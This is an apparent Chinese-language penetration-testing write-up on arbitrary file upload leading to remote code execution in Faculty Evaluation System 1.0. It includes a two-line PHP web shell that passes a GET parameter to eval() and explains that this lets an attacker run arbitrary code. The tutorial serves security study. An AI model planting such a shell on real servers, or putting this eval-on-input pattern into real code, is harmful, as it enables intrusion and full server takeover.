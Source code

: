 
Faculty Evaluation System 1.0 是一個很好的漏洞測試平台(雖然不太應該這樣玩它)，但因為他在這版本有相關漏洞可以測試，就拿來當範例~~

首先可以創建一個很簡易的php去觸發
以下 php 程式將採用 GET 參數代碼並通過 eval() 函數運行它，而不進行任何輸入清理：

**$_GET[" "]被傳遞給eval()函數，這意味著該字符串將被解釋為有效的PHP code並執行。它允許攻擊者執行任意的PHP code**

```php
<?php $code = $_GET['code'];
eval($code); ?>
```
當你看到這頁面就知道程式運行成功，看起來可以做其他測試
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/7dbac24e-7e55-4050-8014-0b1ab115f15c)
